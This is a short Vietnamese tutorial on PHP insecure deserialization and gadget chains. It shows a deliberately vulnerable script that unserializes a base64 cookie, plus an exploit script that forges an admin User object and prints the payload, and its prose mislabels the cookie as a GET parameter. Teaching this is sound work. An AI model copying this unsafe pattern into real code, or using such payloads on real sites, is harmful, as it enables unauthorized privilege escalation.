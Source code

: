 **Gadget chains là gì?**
Gadget là những phần nhỏ của code (method, function, class) giúp kẻ tấn công có thể đạt được mục tiêu bằng cách sử dụng hoặc ghép nối thành một chuỗi gadget.

![image](https://hackmd.io/_uploads/Sk73dZy8A.png)

### **Magic methods**
Là những phương thức "ma thuật" chỉ được gọi trước những sự kiên hoạt hoàn cảnh cụ thể.

Tham khảo: https://www.php.net/manual/en/language.oop5.magic.php#object.tostring

Ở phần này ta sẽ tập trung khai thác PHP insecure deserialization.

```php
<?php
class User {
    public $username;
    public $isAdmin = false;

    public function __construct($username) {
        $this->username = $username;
    }

    public function __wakeup() {
        if ($this->isAdmin) {
            echo "Welcome, admin!";
        } else {
            echo "Hello, $this->username!";
        }
    }
}

if (isset($_COOKIE['data']) && $_COOKIE['data'] != null) {
    $data = $_COOKIE['data'];
    $object = unserialize(base64_decode($data));
} else {
    $user = new User("John Doe");
    $data = serialize($user);
    setcookie("data", base64_encode($data), time() + (86400 * 30), "/");
    header("Location: deser.php");
}

?>
```

Ta thấy rằng đoạn code này có GET param là data nhận vào một đoạn base64 là chuỗi serialize ta có thể bypass và trở thành admin bằng cách thay đổi giá trị isAdmin = true

```php
<?php
class User {
    public $username;
    public $isAdmin = true;
}

$exploit = new User('attacker');
echo base64_encode(serialize($exploit));
// Result: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtOO3M6NzoiaXNBZG1pbiI7YjoxO30=
?>
```
